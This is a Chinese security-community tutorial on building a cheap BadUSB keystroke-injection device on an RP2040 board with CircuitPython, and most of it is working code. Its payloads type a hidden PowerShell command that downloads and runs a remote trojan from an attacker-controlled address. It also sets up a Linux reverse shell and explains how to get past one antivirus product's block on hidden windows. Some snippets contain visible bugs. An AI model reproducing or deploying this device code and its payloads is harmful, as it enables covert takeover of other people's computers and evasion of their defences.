






# 入门级badusb框架的实现-先知社区

> **来源**: https://xz.aliyun.com/news/16070  
> **文章ID**: 16070

---

在接触网络安全之初就有想法造个badusb玩玩，奈何之前对免杀木马单片机都没多少了解便搁置了

### badusb and 键盘模拟

作为HID 攻击的一种，badusb可以说是声名远洋本质是伪装成输入设备在被害者电脑上快速完成威胁操作，理论上来说只要能进行hid交互就能完成攻击，也有很多公司出相关产品例如O.MG 的伪装成数据线的O.MG Cable，不过这不是我们今天的目标，至于badusb的介绍网络上有很多了便不再追述，这次主要讲以最廉价的价格实现一个badusb

### pico? pico\_mini!

再找相关单片机的时候我发现了pr2040就是那个当初实现switch破解的同款才指甲盖大小，而且价格极便宜，如果无需后续改装直接用数据线连接只需要十块钱pdd就能买到



硬件选择完就是固件，毋庸使用的肯定是CircuitPython

### CircuitPython

与**MicroPython**不同CircuitPython能做到即插即用配合上Adafruit\_CircuitPython\_HID项目可以做到模拟hid，且是python逻辑编写也简单，以下是一个小的简单实现

```
import time
import usb_hid
from adafruit_hid.keyboard import Keyboard
from adafruit_hid.keycode import Keycode

# 创建一个键盘对象
keyboard = Keyboard(usb_hid.devices)

# 字符到 Keycode 的映射
key_map = {
    'WINDOWS': Keycode.WINDOWS, 'GUI': Keycode.GUI,
    'APP': Keycode.APPLICATION, 'MENU': Keycode.APPLICATION, 'SHIFT': Keycode.SHIFT,
    'ALT': Keycode.ALT, 'CONTROL': Keycode.CONTROL, 'CTRL': Keycode.CONTROL,
    'DOWNARROW': Keycode.DOWN_ARROW, 'DOWN': Keycode.DOWN_ARROW, 'LEFTARROW': Keycode.LEFT_ARROW,
    'LEFT': Keycode.LEFT_ARROW, 'RIGHTARROW': Keycode.RIGHT_ARROW, 'RIGHT': Keycode.RIGHT_ARROW,
    'UPARROW': Keycode.UP_ARROW, 'UP': Keycode.UP_ARROW, 'BREAK': Keycode.PAUSE,
    'PAUSE': Keycode.PAUSE, 'CAPSLOCK': Keycode.CAPS_LOCK, 'DELETE': Keycode.DELETE,
    'END': Keycode.END, 'ESC': Keycode.ESCAPE, 'ESCAPE': Keycode.ESCAPE, 'HOME': Keycode.HOME,
    'INSERT': Keycode.INSERT, 'NUMLOCK': Keycode.KEYPAD_NUMLOCK, 'PAGEUP': Keycode.PAGE_UP,
    'PAGEDOWN': Keycode.PAGE_DOWN, 'PRINTSCREEN': Keycode.PRINT_SCREEN, 'ENTER': Keycode.ENTER,
    'SCROLLLOCK': Keycode.SCROLL_LOCK, 'SPACE': Keycode.SPACE, 'TAB': Keycode.TAB,
    'BACKSPACE': Keycode.BACKSPACE,
    'a': Keycode.A, 'b': Keycode.B, 'c': Keycode.C, 'd': Keycode.D, 'e': Keycode.E,
    'f': Keycode.F, 'g': Keycode.G, 'h': Keycode.H, 'i': Keycode.I, 'j': Keycode.J,
    'k': Keycode.K, 'l': Keycode.L, 'm': Keycode.M, 'n': Keycode.N, 'o': Keycode.O,
    'p': Keycode.P, 'q': Keycode.Q, 'r': Keycode.R, 's': Keycode.S, 't': Keycode.T,
    'u': Keycode.U, 'v': Keycode.V, 'w': Keycode.W, 'x': Keycode.X, 'y': Keycode.Y,
    'z': Keycode.Z,
    'A': (Keycode.SHIFT, Keycode.A), 'B': (Keycode.SHIFT, Keycode.B),
    'C': (Keycode.SHIFT, Keycode.C), 'D': (Keycode.SHIFT, Keycode.D),
    'E': (Keycode.SHIFT, Keycode.E), 'F': (Keycode.SHIFT, Keycode.F),
    'G': (Keycode.SHIFT, Keycode.G), 'H': (Keycode.SHIFT, Keycode.H),
    'I': (Keycode.SHIFT, Keycode.I), 'J': (Keycode.SHIFT, Keycode.J),
    'K': (Keycode.SHIFT, Keycode.K), 'L': (Keycode.SHIFT, Keycode.L),
    'M': (Keycode.SHIFT, Keycode.M), 'N': (Keycode.SHIFT, Keycode.N),
    'O': (Keycode.SHIFT, Keycode.O), 'P': (Keycode.SHIFT, Keycode.P),
    'Q': (Keycode.SHIFT, Keycode.Q), 'R': (Keycode.SHIFT, Keycode.R),
    'S': (Keycode.SHIFT, Keycode.S), 'T': (Keycode.SHIFT, Keycode.T),
    'U': (Keycode.SHIFT, Keycode.U), 'V': (Keycode.SHIFT, Keycode.V),
    'W': (Keycode.SHIFT, Keycode.W), 'X': (Keycode.SHIFT, Keycode.X),
    'Y': (Keycode.SHIFT, Keycode.Y), 'Z': (Keycode.SHIFT, Keycode.Z),
    '0': Keycode.ZERO, '1': Keycode.ONE, '2': Keycode.TWO, '3': Keycode.THREE,
    '4': Keycode.FOUR, '5': Keycode.FIVE, '6': Keycode.SIX, '7': Keycode.SEVEN,
    '8': Keycode.EIGHT, '9': Keycode.NINE,
    ' ': Keycode.SPACE, '-': Keycode.MINUS, '/': Keycode.FORWARD_SLASH,
    '.': Keycode.PERIOD, ':': (Keycode.SHIFT, Keycode.SEMICOLON),
    ';': Keycode.SEMICOLON, '\'': Keycode.QUOTE, '"': (Keycode.SHIFT, Keycode.QUOTE),
    '(': (Keycode.SHIFT, Keycode.NINE), ')': (Keycode.SHIFT, Keycode.ZERO),
    '_': (Keycode.SHIFT, Keycode.MINUS), '=': Keycode.EQUALS,
    '!': (Keycode.SHIFT, Keycode.ONE), '@': (Keycode.SHIFT, Keycode.TWO),
    '#': (Keycode.SHIFT, Keycode.THREE), '$': (Keycode.SHIFT, Keycode.FOUR),
    '%': (Keycode.SHIFT, Keycode.FIVE), '^': (Keycode.SHIFT, Keycode.SIX),
    '&': (Keycode.SHIFT, Keycode.SEVEN), '*': (Keycode.SHIFT, Keycode.EIGHT),
    '+': (Keycode.SHIFT, Keycode.EQUALS),
    '[': Keycode.LEFT_BRACKET, ']': Keycode.RIGHT_BRACKET,
    '{': (Keycode.SHIFT, Keycode.LEFT_BRACKET), '}': (Keycode.SHIFT, Keycode.RIGHT_BRACKET),
    '\\': Keycode.BACKSLASH, '|': (Keycode.SHIFT, Keycode.BACKSLASH),
    '<': (Keycode.SHIFT, Keycode.COMMA), '>': (Keycode.SHIFT, Keycode.PERIOD),
    '?': (Keycode.SHIFT, Keycode.FORWARD_SLASH), '"': (Keycode.SHIFT, Keycode.QUOTE)
}

uppercase_letters = "ABCDEFGHIJKLMNOPQRSTUVWXYZ"

payload = """ hello """

def main():
    try:
        # 延迟一秒，确保电脑识别设备
        time.sleep(1)

        keyboard.press(Keycode.WINDOWS)
        keyboard.press(Keycode.R)
        keyboard.release_all()
        time.sleep(1)

        for char in "powershell":
            print(char)
            keyboard.press(key_map[char])  # 按下字符
            keyboard.release_all()  # 释放所有按键
            time.sleep(0.1)

        # 回车键
        keyboard.press(Keycode.ENTER)
        keyboard.release_all()

        time.sleep(1)

        keyboard.press(key_map['CTRL'])
        time.sleep(1)
        keyboard.press(key_map['SPACE'])
        keyboard.release_all()  # 释放所有按键

        time.sleep(1)

        for char in payload : # payload
            print(char)
            if char == ":" or char == '"' or char == '(' or char == ')' or char in uppercase_letters:
                test = special_case(char) # 特判函数
                print(test)
#                 for key in key_map[char]:
#                     keyboard.press(key)
#                 keyboard.release_all()
                continue  # 跳出逻辑

            keyboard.press(key_map[char])  # 标准逻辑
            keyboard.release_all()
            time.sleep(0.1)

        keyboard.release_all()
        keyboard.press(Keycode.ENTER)
        keyboard.release_all()
        print("Command has been typed and Enter pressed.")
    except Exception as e:
        print(f"Error occurred: {e}")
        keyboard.release_all()  
        raise

def special_case(char):
    for key in key_map[char]:
        keyboard.press(kay)
    keyboard.release_all()
    return "check"

if __name__ == "__main__":
    main()

```

这就是一个简单的案例，将我们常用的字符通过key\_map映射过后，通过遍历模拟键盘拉起一个poweshell终端，在其中输入字符，将代码烧如便是一个简单的badusb

### 框架搭建

上面的代码写到一半才发现在pico也就是rp2040上已经有更成熟的框架实现了，但无所谓造轮子总能学到更多

上述代码其实已经将核心功能实现了，我的目标是将功能模块化通过内置于开发板缓存中的payload.txt来对其进行控制，于是我将核心实现与文件读取分开，从外部获取命令

```
paylist = [] # 使用列表存储payload
# payload 读取函数
def Rpayload():

    with open ('payload.txt','r') as payload:
        for line in payload:
            line = line.strip()
            elif line == "POWERSHELL":
                powershell()
            elif line == "TOGGLE_INPUT": # 切换输入法
                toggleinput()
            elif line[:3] == "set":
                if line[:8] == "set Time":
                    time(line[9:])
            ....
            print(paylist)
    return paylist

def main():
    Rpayload()
# 处理函数
def win():
   ....
# SET
def time(time):
    ....
if __name__ == '__main__':
    main()

```

后imput到code.py中，这样需要加入什么模块只需要在这里添加引入再到code.py中设置好相关按键逻辑就可以调用

```
def powershell():
    global delay_time
    try:
        time.sleep(delay_time)

        keyboard.press(Keycode.WINDOWS)
        keyboard.press(Keycode.R)
        keyboard.release_all()
        time.sleep(delay_time)

        for char in "powershell":
            print(char)
            keyboard.press(key_map[char])  # 按下字符
            keyboard.release_all()  # 释放所有按键
            time.sleep(0.1)

            # 回车键
        keyboard.press(Keycode.ENTER)
        keyboard.release_all()

    except Exception as e:
        print(f"Error occurred: {e}")
        keyboard.release_all()  
        raise
    return "OK"

```

```
def toggleinput():
    try:
        keyboard.press(key_map['CTRL'])
        time.sleep(1)
        keyboard.press(key_map['SPACE'])
        time.sleep(0.5)
        keyboard.release_all()  # 释放所有按键
    except Exception as e:
        print(f"Error occurred: {e}")
        keyboard.release_all()  
        raise

```

这样仅需修改payload.txt文件即可实现对输入内容的控制

```
set Time 1
POWERSHELL
TOGGLE_INPUT
ECHO HelloWord
ECHO PASS
POWERSHELL
ECHO test
```



### payload 准备

框架简单准备了一个语法，大写内容为模块ECHO后面跟着的是键盘输入内容，set后面跟设置参数在后为具体数值

如果没有免杀需求根据上述就可以写出一个最简的payload

```
POWERSHELL
TOGGLE_INPUT
ECHO powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.255.1:8029/a'))"
```

拉起powershell设置一次输入法，输入cs生成的木马，执行后会自动关闭



linux下也准备了基于bash -i的利用

```
set Time 1
LINUX_OPENSHELL
LINUX_RESHELL 127.0.0.1 4444
```



### powershell windows的简单免杀

在翻阅资料的时候发现有师傅说可以将payload存放于闪存中调用，这确实不失为一种好方法，但如果追求简介我依旧选择从网络实现

#### 杀软

在我的测试中杀软似乎对powershell的检测力度并不大（也有可能是虚拟机与实体机的区别）

其中火绒会拦截`-WindowStyle Hidden`操作也就是对应缩写`-w hidden`操作，但可以绕过



```
Start-Process -WindowStyle Hidden powershell.exe -ArgumentList '-NoProfile', '-Command',  'IEX ((new-object net.webclient).downloadstring(''http://192.168.56.1:8065/a''))'

```

不直接通过powershell.exe带参数而是通过Start-Process拉起powershell的时候带上-WindowStyle Hidden即可绕过



在badusb中使用时只需要多加一个exit就可以了

### 实现效果与项目地址


<https://github.com/neko205-mx/bad-rp2040>

可能后续还会在这个基础上在看看能不能实现键盘监听或其他功能

> 参考
>
> * <https://learn.adafruit.com/circuitpython-essentials/circuitpython-hid-keyboard-and-mouse>
> * <https://github.com/adafruit/Adafruit_CircuitPython_HID>
> * <https://github.com/neko205-mx/bad-rp2040>
